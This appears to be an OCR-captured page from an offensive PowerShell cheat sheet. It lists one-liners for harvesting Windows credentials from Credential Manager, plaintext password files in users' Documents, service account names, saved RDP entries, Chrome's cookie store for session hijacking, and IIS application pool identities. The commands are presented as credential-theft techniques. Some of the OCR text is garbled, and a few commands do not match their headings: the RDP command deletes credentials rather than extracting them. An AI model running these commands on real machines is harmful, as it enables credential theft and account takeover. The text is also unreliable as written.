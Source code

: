 ### Extracting Credentials from Windows Credential Manager

This command utilizes the PSCredentialManager module to extract stored credentials from the Windows Credential Manager, focusing on generic 
credentials.

```powershell
$credman = New-Object -TypeName PSCredentialManager.Credential; $credman | Where-Object { $_.Type -eq
'Generic' } | Select-Object -Property UserName, Password
```

### Retrieving Passwords from Unsecured Files

Searches for the term ‘password’ in all text les within the Documents folders of all users, which can reveal passwords stored insecurely.

```powershell
Select-String -Path C:\Users\*\Documents\*.txt -Pattern 'password' -CaseSensitive
```

### Dumping Credentials from Windows Services

Lists Windows services that are running under a specic user account, which can sometimes include
credentials in the service conguration.

```powershell
Get-WmiObject win32_service | Where-Object {$_.StartName -like '*@*'} | Select-Object Name, StartName,DisplayName
```

### Extracting Saved RDP Credentials

Lists and deletes saved Remote Desktop Protocol (RDP) credentials, which can be used to access remote systems.

```powershell
cmdkey /list | Select-String 'Target: TERMSRV' | ForEach-Object { cmdkey /delete:($_ -split ' ')[-1] }
```

### Retrieving Browser Cookies for Credential Theft

Accesses the Chrome browser’s Cookies le, which can contain session cookies that might be exploited for session hijacking.

```powershell
$env:USERPROFILE + '\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item
```

### Extracting Credentials from IIS Application Pools

Retrieves conguration details of IIS Application Pools, including service accounts, which might contain credentials.

```powershell
Import-Module WebAdministration; Get-IISAppPool | Select-Object Name, ProcessModel
````
